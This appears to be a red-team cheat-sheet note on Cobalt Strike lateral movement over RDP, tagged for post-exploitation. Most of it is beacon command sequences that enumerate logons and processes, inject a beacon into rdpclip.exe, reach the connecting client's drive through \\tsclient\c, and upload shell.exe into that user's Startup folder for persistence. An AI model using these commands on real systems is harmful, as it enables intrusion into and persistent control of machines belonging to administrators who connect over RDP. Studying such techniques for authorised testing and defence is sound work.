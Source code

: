 # Cobalt Strike

Search Tag(s): #lateral-movement #rdp #cobalt-strike #windows

TODO: Convert this with other C2 frameworks including other sections and test this

## RDP Process Injection

```
beacon> net groups

beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>
```

## RDPInception

```
beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>

beacon> ls \\tsclient\c

beacon> upload shell.exe \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Backdoors/Startup/Manual/Living off the Land|Startup Persistence]]

### Hacktricks

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/rdp-sessions-abuse.html)